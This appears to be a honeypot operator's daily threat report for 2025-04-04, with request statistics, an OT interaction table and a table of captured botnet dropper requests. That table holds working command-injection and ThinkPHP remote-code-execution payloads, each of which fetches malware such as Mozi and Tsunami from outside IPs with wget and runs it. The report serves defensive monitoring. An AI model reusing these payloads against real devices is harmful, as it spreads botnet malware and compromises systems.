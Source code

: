 ```yaml
---
title: "Report: 2025-04-04 "
date: 2025-04-04
desciption: "Report: 2025-04-04" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-04 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 18 stage 1 IP address(es), linked to 7 dropper URL(s).  

There are 155 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2998 requests were recorded during the day, originating from 18 different countries, with a peak of 1019 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SC               | Germany            |
| SC               | Germany            |
| US               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                        |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=wget%20http%3A%2F%2F45.87.43.37%2Ftbk%20-O-%20%7C%20sh HTTP/1.1                                                                                                               |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                         |
| 103.207.124.41  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.207.124.41:46234/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                  |
| 185.197.140.156 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://185.197.140.156:52968/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                 |
| 114.76.203.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 181.170.159.56  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |